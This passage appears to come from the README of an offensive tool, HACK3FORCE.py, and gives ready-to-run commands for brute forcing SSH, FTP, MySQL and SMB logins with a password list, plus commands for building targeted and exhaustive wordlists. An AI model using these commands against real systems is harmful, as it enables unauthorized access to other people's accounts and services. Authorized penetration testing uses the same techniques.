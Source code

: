 
### Attack Mode 3: Network Service Brute Forcing

Brute force SSH, FTP, MySQL, or SMB services:

```bash
python3 HACK3FORCE.py --mode 1 --at_mode 3 --user <user> --password-list <password_list> --target-ip <ip> [--ssh | --ftp | --mysql | --smb] [--verbose]
```

Example SSH brute force:

```bash
python3 HACK3FORCE.py --mode 1 --at_mode 3 --user admin --password-list passwords.txt --target-ip 192.168.1.100 --ssh --verbose
```

Example FTP brute force:

```bash
python3 HACK3FORCE.py --mode 1 --at_mode 3 --user admin --password-list passwords.txt --target-ip 192.168.1.100 --ftp --verbose
```

Example MYSQL brute force:

```bash
python3 HACK3FORCE.py --mode 1 --at_mode 3 --user admin --password-list passwords.txt --target-ip 192.168.1.100 --mysql --verbose
```

Example SMB brute force:

```bash
python3 HACK3FORCE.py --mode 1 --at_mode 3 --user admin --password-list passwords.txt --target-ip 192.168.1.100 --smb --verbose
```

---

## Usage Example for Mode 2 (Make Wordlist Modes)

### Make Wordlist Mode 1: Targeted Wordlist Engineering Maker

Example for targeted wordlist creation (interactive):

```bash
python3 HACK3FORCE.py --mode 2 --mk_mode 1
```

---

### Make Wordlist Mode 2: All Combination Wordlist Generator

Example for All Combination Wordlist generation:

```bash
python3 HACK3FORCE.py --mode 2 --mk_mode 2 --min 4 --max 4 --pat "@,#%" --out wordlist.txt --verbose
```

